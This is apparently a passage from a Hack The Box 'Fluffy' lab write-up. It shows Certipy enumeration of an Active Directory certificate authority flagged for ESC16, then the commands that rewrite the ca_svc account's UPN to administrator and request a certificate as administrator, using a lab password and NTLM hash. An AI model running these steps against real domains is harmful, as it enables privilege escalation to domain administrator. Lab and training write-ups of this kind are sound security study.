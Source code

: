 ```shell
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```
 we will exploit `ESC16`, using the `Genericwrite` that `p.agile` has over `ca_svc`.
```shell
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$ certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn administrator -user 'ca_svc' update
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$ rm administrator.pfx 
(python-env) deb@debian:~/Desktop/htb/Fluffy/data/tmp$ certipy req -u 'ca_svc@fluffy.htb' -hashes aad3b435b51404eeaad3b435b51404ee:ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip '10.10.11.69' -target DC01.fluffy.htb -ca 'fluffy-DC01-CA' -template 'User'
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 17
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
```